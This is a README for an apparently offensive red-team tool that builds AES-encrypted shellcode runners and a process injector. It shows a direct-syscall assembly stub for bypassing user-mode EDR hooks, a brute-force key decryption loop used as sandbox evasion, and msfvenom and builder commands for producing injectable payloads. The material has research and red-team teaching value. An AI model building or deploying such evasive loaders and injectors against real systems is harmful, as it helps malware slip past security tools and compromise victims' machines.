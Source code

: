 # GENERIC SYSCALL
This code impliments the Sorting by System Call Address method described in a [blogpost.](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)<br>

quick disasm with https://defuse.ca/online-x86-assembler.htm#disassembly
```
ZwX:
   58                          pop     rax            ; return address
   41 5A                       pop     r10
   50                          push    rax            ; save in shadow space as _rcx
   51                          push    rcx            ; rax = ssn
   58                          pop     rax
   52                          push    rdx            ; rcx = arg1
   41 5A                       pop     r10
   41 50                       push    r8             ; rdx = arg2
   5A                          pop     rdx
   41 51                       push    r9             ; r8 = arg3
   41 58                       pop     r8             ; r9 = arg4
   4C 8B 4C 24 20              mov     r9, [rsp + 0x20]
   0F 05                       syscall
   FF 64 24 18                 jmp     qword[rsp]
```
This is an interesting technique because it removes the need to both define native function types in our header files and to define each native function in assembly.  
Some prerequisite knowledge:  
- When a function is called the return address is pushed to the stack and execution jumps to the address of the function. So `call` is really like a `push ret` then `jmp faddr` instruction.  
- In x64 the fastcall calling convention is used. With fastcall four registers are used to hold the first four parameters of a function (`rcx`, `rdx`, `r8`, `r9`).  

So `pop rax` moves the return address from the top of the stack to `rax` register. Now `first parameter` of the function is at the top.  
`pop r10` moves the next item from the top of the stack to `r10`.
The return address in `rax` is moved back to the top of the stack with the `push rax` operation.
The first parameter of our ZwX fucntion is then pushed onto the stack with `push rcx`.  
The stack then starts to look more like the stdcall the underlying native function is expecting.  


## Encoding  
The shellcode is encrypted with AES-CBC encryption via the kokke TinyAES library.  
The IV and key are generated with the get_random_bytes function in the pycryptodome library.  
The shellcode payload is decrypted with a crude brute-force loop of the last two bytes of the key instead of using the sleep function.  
```c 
for (int i = 0x00; i<=0xff;i++) {
    key[14] = i;
    for (int j = 0x00; j <= 0xff;j++) {
        key[15] = j;
        AES_init_ctx_iv(&ctx, key, iv);
        AES_CBC_decrypt_buffer(&ctx, encrypted_instructions, ENCRYPTED_BIN_LEN);
``` 
There is a loader, which just runs the shellcode in the same process via function pointer, a loader that does the same thing but via sections, and a process injector.  

Dependencies:
```
gcc
python3
nasm
```

use like
```bash
python3 -m venv env  
source env/bin/activate  
pip install pycryptodome  
msfvenom -p windows/x64/exec CMD='C:\Windows\System32\notepad.exe' EXITFUNC=process -f raw -o test.bin  
python build.py -inbin test.bin -execmethod runner
python builder.py -inbin test.bin -execmethod section_inject --process notepad.exe --cmdline 'c:\\\\windows\\system32\\firefox.exe'
```


```bash
usage: builder.py [-h] [-inbin INBIN] [-execmethod {section_inject,section_runner,section_runner_dll,runner,runner_dll}] [--process PROCESS] [--cmdline CMDLINE] [--v V]

generate AES encrypted shellcode runners

optional arguments:
  -h, --help            show this help message and exit
  -inbin INBIN          .bin file
  -execmethod {section_inject,section_runner,section_runner_dll,runner,runner_dll}
  --process PROCESS     process to inject (only with 'section_inject')
  --cmdline CMDLINE     cmdline argument to show (only with 'section_inject')
  --verbose             
  ```  

### References & Reading
Generally:  
hasherezade -- rely heavilly on her PEB lookup heeader code
forrest-orr -- excellent code to read and learn from  
batsec -- lots of python building stuff from his shad0w project
https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams  
https://github.com/simon-whitehead/assembly-fun/blob/master/windows-x64/README.md  